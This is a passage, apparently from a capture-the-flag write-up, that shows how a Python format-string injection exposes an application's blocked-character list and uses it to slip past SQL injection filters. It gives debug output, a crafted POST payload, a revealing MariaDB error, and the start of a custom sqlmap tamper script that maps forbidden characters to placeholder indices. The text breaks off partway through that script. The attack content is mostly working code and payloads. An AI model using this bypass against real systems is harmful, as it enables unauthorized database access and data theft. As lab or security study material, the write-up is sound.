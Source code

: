 ```
dirty_strings: {'username': user{x}, 'password': value}

self.placeholders: ['username', 'password']

format_map (before for loop): {'username': <function QueryBuilder.build_query.<locals>.<lambda> at 0x7f3cd5b55820>, 'password': <function QueryBuilder.build_query.<locals>.<lambda> at 0x7f3cd5b55820>}

format_map (after for loop): {'username': 'user{x}', 'password': <function QueryBuilder.build_query.<locals>.<lambda> at 0x7f3cd5b55820>}

self.placeholders: ['x', 'password']

format_map (before for loop): {'x': <function QueryBuilder.build_query.<locals>.<lambda> at 0x7f3cd4943a60>, 'password': <function QueryBuilder.build_query.<locals>.<lambda> at 0x7f3cd4943a60>}

format_map (after for loop): {'x': <class '__main__.DirtyString'>, 'password': <function QueryBuilder.build_query.<locals>.<lambda> at 0x7f3cd4943a60>}
self.placeholders: ['password']

format_map (before for loop): {'password': <function QueryBuilder.build_query.<locals>.<lambda> at 0x7f3cd49438b0>}

format_map (after for loop): {'password': 'value'}
```
> This output is behind the scenes of what happened. I used print statements to get these.

You can see that `{x}` becomes an instance of the `DirtyString` object at some point, meaning we can access previously inaccessible characters via `{x}{x.MALICIOUS_CHARS}`.

----


For example, when I send in this POST request:
```
username:user{x}{x.MALICIOUS_CHARS}
password:value
```

I get this in the HTTP response:
```
Database query failed: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\\', '/', '*', '+%', '-', ';', '#', '(', ')', ' ', ',']' AND password = 'value'' at line 1
```
> This is the user-visible output that the server returns due to SQL errors.

----

#### Solution

Now that we can use restricted values, I created a custom tamper script in `sqlmap` that will basically bypass the filters via the `MALICIOUS_CHARS` array index.

`custom_tamper.py` file
```python
#!/usr/bin/env python
def tamper(payload, **kwargs):
    """
    Replaces each character defined in `mapping` with the corresponding 
    "{apple.MALICIOUS_CHARS[index]}" placeholder in the given payload.
    """

    mapping = {
        '"': '{a.MALICIOUS_CHARS[0]}',
        "'": '{a.MALICIOUS_CHARS[1]}',
        '\\': '{a.MALICIOUS_CHARS[2]}',
```